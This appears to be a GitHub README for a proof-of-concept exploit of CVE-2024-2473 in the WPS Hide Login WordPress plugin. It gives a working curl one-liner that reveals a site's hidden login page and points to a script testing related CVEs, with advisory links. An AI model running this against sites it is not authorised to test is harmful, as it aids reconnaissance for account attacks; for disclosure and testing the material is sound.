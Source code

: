 # WPS Hide Login <= 1.9.15.2 - Login Page disclosure (CVE-2024-2473)

Disclose login page hidden by [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

Affected versions: 1.5.1 to 1.9.15.2

Patched version: 1.9.16

## Exploitation cURL command

```bash
curl -X POST https://$target/wp-admin/?action=postpass -d 'post_password=' -sko /dev/null -D - | grep -i ^location | cut -d ' ' -f 2- | cut -d '?' -f 1
```

## Exploitation Python script

This script include tests for other CVEs on [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

```bash
./show-login.py -h
```

## References

- [CVE-2024-2473](https://www.wordfence.com/threat-intel/vulnerabilities/id/fd21c7d3-a5f1-4c3a-b6ab-0a979f070a62)
- [CVE-2021-24917](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-190-hidden-login-page-location-disclosure)
- [CVE-2019-15826](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionrp)
- [CVE-2019-15825](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-referer-header)
- [CVE-2019-15824](https://wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionconfirmaction)
- [CVE-2019-15823](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-adminhash)
